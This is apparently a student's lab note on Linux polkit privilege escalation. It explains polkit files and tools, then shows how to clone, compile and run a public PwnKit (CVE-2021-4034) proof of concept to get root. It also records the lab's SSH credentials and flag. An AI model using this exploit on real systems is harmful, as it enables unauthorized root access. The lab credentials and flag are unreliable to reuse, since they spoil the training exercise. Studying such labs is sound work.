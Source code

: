# Polkit

PolicyKit (polkit) is an authorization service on Linux-based operating systems that allows user software and system components to communicate with each other if the user software is authorized to do so.

Polkit works with two groups of files.

1. actions/policies (/usr/share/polkit-1/actions)
2. rules (/usr/share/polkit-1/rules.d)

Custom rules can be placed in the directory /etc/polkit-1/localauthority/50-local.d with the file extension .pkla

PolKit also comes with three additional programs:

pkexec - runs a program with the rights of another user or with root rights
pkaction - can be used to display actions
pkcheck - this can be used to check if a process is authorized for a specific action

pkexec -u root id
uid=0(root) gid=0(root) groups=0(root)

## Vulnerability : Pwnkit

https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-4034

git clone https://github.com/arthepsy/CVE-2021-4034.git
cd CVE-2021-4034
gcc cve-2021-4034-poc.c -o poc

```
./poc

# id
uid=0(root) gid=0(root) groups=0(root)
```

## LAB

ssh htb-student@10.129.205.113
HTB_@cademy_stdnt!

git clone https://github.com/arthepsy/CVE-2021-4034.git
cd CVE-2021-4034
gcc cve-2021-4034-poc.c -o poc

scp poc htb-student@10.129.205.113:/home/htb-student/

./poc
cat /root/flag.txt
HTB{p0Lk1tt3n}
